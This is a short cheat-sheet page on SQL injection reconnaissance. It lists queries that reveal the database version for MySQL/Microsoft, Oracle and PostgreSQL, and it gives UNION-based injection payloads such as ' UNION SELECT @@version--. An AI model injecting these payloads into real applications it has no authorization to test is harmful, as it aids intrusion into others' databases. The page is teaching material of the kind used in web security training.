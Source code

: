 # Querying the database type and version

The following are some queries to determine the database version for some popular database types:

Database type                            Query<br>
Microsoft, MySQL--                         `SELECT @@version`<br>
Oracle       --                            `SELECT * FROM v$version`<br>
Postgresql        --                       `SELECT version()`<br>


For example, you could use a `UNION` attack with the following input:

```bash
' UNION SELECT @@version--
```
Payload for Oracle
`' UNION SELECT BANNER, NULL FROM v$version--`
